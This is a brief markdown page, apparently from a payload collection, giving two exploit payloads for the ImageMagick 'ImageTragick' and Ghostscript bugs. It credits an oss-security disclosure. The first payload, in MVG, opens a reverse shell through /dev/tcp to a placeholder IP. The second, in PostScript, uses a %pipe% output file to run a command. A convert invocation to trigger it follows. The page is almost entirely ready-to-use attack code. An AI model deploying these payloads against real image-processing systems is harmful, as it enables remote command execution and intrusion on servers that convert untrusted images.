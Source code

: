 # Image Tragik 1 & 2


## Exploit v1

Simple reverse shell

```powershell
push graphic-context
encoding "UTF-8"
viewbox 0 0 1 1
affine 1 0 0 1 0 0
push graphic-context
image Over 0,0 1,1 '|/bin/sh -i > /dev/tcp/ip/80 0<&1 2>&1'
pop graphic-context
pop graphic-context
```

## Exploit v2

Simple `id` payload

```powershell
%!PS
userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%id) currentdevice putdeviceprops
```

then use `convert shellexec.jpeg whatever.gif`

## Thanks to

* [openwall.com/lists/oss-security/2018/08/21/2 by Tavis Ormandy](http://openwall.com/lists/oss-security/2018/08/21/2)